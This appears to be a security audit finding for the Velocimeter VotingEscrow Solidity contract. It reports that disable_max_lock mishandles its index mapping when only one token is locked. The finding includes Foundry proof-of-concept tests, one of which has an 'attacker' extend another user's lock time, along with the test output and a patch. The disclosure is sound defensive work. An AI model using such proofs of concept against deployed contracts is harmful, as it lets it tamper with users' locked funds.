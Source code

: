 Generous Malachite Rook

High

# disable_max_lock function incorrectly sets the maxLockIdToIndex mapping when its length is one

## Summary
disable_max_lock function incorrectly sets the maxLockIdToIndex mapping when its length is one

## Vulnerability Detail
From [VotingEscrow.sol::disable_max_lock]() code 
```solidity
  function disable_max_lock(uint _tokenId) external {
      assert(_isApprovedOrOwner(msg.sender, _tokenId));
      require(maxLockIdToIndex[_tokenId] != 0,"disabled");

      uint index =  maxLockIdToIndex[_tokenId] - 1;
      maxLockIdToIndex[_tokenId] = 0;

       // Move the last element into the place to delete
      max_locked_nfts[index] = max_locked_nfts[max_locked_nfts.length - 1];  <@
      
      // update the index 
      maxLockIdToIndex[max_locked_nfts[index]] = index + 1;
      
      // Remove the last element
      max_locked_nfts.pop();
  }
```
we can see when disable a specific tokenId , firstly , set the `maxLockIdToIndex` mapping to zero, and then move the last element into the place to delete . Finally pop the last element from `max_locked_nfts` list.

However , when there is only one element in the `max_locked_nfts` list , protocol incorrectly sets the maxLockIdToIndex to the deleted element again. Which result in this tokenId can't be enable again.
What's more ? since tokenId is still in the mapping, attacker can invoke `max_lock` to extends the lock end time
test can not be enable 
```solidity
  function testTokenIdCanNotBeEnableAgain() public {
      flowDaiPair.approve(address(escrow), TOKEN_1*2);
      uint256 lockDuration = 7 * 24 * 3600; // 1 week

      assertEq(escrow.balanceOf(address(owner)), 0);
      escrow.create_lock(TOKEN_1, lockDuration);
      escrow.create_lock(TOKEN_1, lockDuration);

      escrow.enable_max_lock(1);
      escrow.disable_max_lock(1);

      vm.expectRevert("enabled");
      escrow.enable_max_lock(1);
  }
```
out
```solidity
Ran 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testTokenIdCanNotBeEnableAgain() (gas: 1077829)
Logs:
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.06ms (1.56ms CPU time)
```

test attacker extend the lock time
```solidity
    function testTokenIdCanNotBeEnableAgain() public {
        flowDaiPair.approve(address(escrow), TOKEN_1*2);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        escrow.create_lock(TOKEN_1, lockDuration);

        escrow.enable_max_lock(1);
        //owner disable max lock
        escrow.disable_max_lock(1);

        //attacker can still invoke max lock to extend the lock time.
        vm.prank(makeAddr('attacker'));
        escrow.max_lock(1);

        (,uint end) = escrow.locked(1);
        assertEq(end,52 weeks);
        console2.log(end);
    }
```
out
```shell
Ran 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testTokenIdCanNotBeEnableAgain() (gas: 1077381)
Logs:
  31449600

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.52ms (3.81ms CPU time)
```


## Impact
- user can not enable his tokenId to max lock
- attacker can extend tokenId's lock end time even if it's disabled 

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L893-L908

## Tool used

Manual Review

## Recommendation
```diff
@@ -899,9 +907,11 @@ contract VotingEscrow is IERC721, IERC721Metadata, IVotes {
 
          // Move the last element into the place to delete
         max_locked_nfts[index] = max_locked_nfts[max_locked_nfts.length - 1];
-        
+
         // update the index 
-        maxLockIdToIndex[max_locked_nfts[index]] = index + 1;
+        if(max_locked_nfts[index] !=_tokenId ){
+            maxLockIdToIndex[max_locked_nfts[index]] = index + 1;
+        }
```